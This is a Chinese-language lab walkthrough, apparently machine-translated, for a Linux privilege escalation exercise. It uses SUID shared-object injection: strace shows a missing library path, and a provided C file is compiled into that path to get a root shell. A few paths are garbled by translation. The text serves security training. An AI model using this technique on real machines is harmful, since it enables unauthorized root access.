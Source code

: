 # 任务 12: SUID / SGID 可执行文件-共享对象注入

当我们运行`/usr/local/bin/suid-so`(与共享对象有关的东西)时，它显示一个进度条，然后退出

所以我们运行一个`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`,看看是否有错误的配置或文件，我们可以改变来利用这个可执行文件。

从输出来看，我们的目标是`/home/user/.config/libcalc.so`,因为它不存在，我们有管理文件和文件夹的读写权限

在编译和运行漏洞时，我们获得了根外壳访问权限

注意，可执行文件试图加载/home/user/。config/libcalc.so 共享对象，但是找不到它。

创建。libcalc.so 文件的配置目录:

```
mkdir /home/user/.config
```

示例共享对象代码可以在/home/user/tools/suid/lib calc . c 中找到。在 suid-so 可执行文件查找代码的位置，将代码编译成共享对象:

```
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

再次执行 suid-so 可执行文件，注意这一次，我们得到的不是进度条，而是根 shell。

```
/usr/local/bin/suid-so
```

![](img/5cd6ab1c9a8dce0faac3fc104218d600.png)

